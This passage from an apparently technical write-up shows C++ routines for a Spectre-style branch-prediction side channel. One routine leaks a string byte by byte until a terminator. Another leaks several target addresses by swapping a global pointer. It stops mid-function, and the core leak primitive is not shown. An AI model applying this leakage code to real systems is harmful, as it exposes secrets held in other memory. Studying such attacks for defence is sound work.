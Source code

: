 #### Method 3: Adaptive Length Detection

```cpp
std::string LeakStringAdaptive() {
    std::string result;
    size_t offset = 0;
    const size_t MAX_STRING_LENGTH = 1024;
    
    while (offset < MAX_STRING_LENGTH) {
        char leaked_char = LeakByteVariableDepth(offset, g_branch_prediction_depth);
        
        // Handle common string terminators
        if (leaked_char == '\0' || leaked_char == '\n' || leaked_char == '\r') {
            break;
        }
        
        // Validate printable characters
        if (std::isprint(leaked_char) || std::isspace(leaked_char)) {
            result.push_back(leaked_char);
        } else {
            // Handle binary data or encoding issues
            result.append("\\x");
            result.append(to_hex_string(static_cast<uint8_t>(leaked_char)));
        }
        
        offset++;
        
        // Dynamic progress reporting
        if (offset % 10 == 0) {
            std::cout << "Progress: " << offset << " bytes leaked" << std::endl;
        }
    }
    
    return result;
}
```

#### Method 4: Multi-Target String Leakage

```cpp
struct StringTarget {
    const char* address;
    size_t max_length;
    std::string name;
};

std::map<std::string, std::string> LeakMultipleStrings(
    const std::vector<StringTarget>& targets) {
    
    std::map<std::string, std::string> results;
    
    for (const auto& target : targets) {
        std::cout << "Leaking: " << target.name << std::endl;
        
        // Temporarily update global pointer for this target
        const char* original_private = private_data;
        private_data = target.address;
        
        // Leak the string
        std::string leaked = LeakStringAdaptive();
        results[target.name] = leaked;
        
        // Restore original pointer
        private_data = original_private;
        
```